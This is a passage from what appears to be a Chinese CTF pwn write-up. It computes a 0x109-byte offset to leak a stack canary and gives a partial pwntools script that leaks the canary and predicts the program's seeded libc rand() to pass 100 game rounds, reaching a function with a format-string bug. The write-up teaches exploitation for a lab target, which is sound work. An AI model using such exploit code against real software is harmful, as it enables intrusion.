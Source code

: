 因此offset=0x120-0x18+1=0x109（加1的目的是为了把canary的00给覆盖了）



然后考虑下格式化字符串怎么用？如果只根据现在获取的信息的话，我也不知道怎么用，不过可以先把脚本写出来，调试一下，看看栈里面有没有可用的信息。

半成品脚本：

```python
#coding:utf-8
from pwn import *
from ctypes import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./a')
#gdb.attach(p, 'b * $rebase(0x1435)\nc')
e=ELF('./a')
lib=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0x1111111111111111)
payload=0x109*'\x11'
p.send(payload)
p.recvuntil('\x11'*0x109)
canary=u64(p.recv(7).rjust(8,'\x00'))
print(hex(canary))
for i in range(100):
    v2=libc.rand()%3
    if v2==0:
        v3=1
    if v2==1:
        v3=2
    if v2==2:
        v3=0
    p.recvuntil(': \n')
    p.send(str(v3))
p.interactive()
```



可以看到现在已经进入到了存在格式化字符串漏洞的函数。


![image-20220411121619129](/upload/img/image-20220411121619129.png)
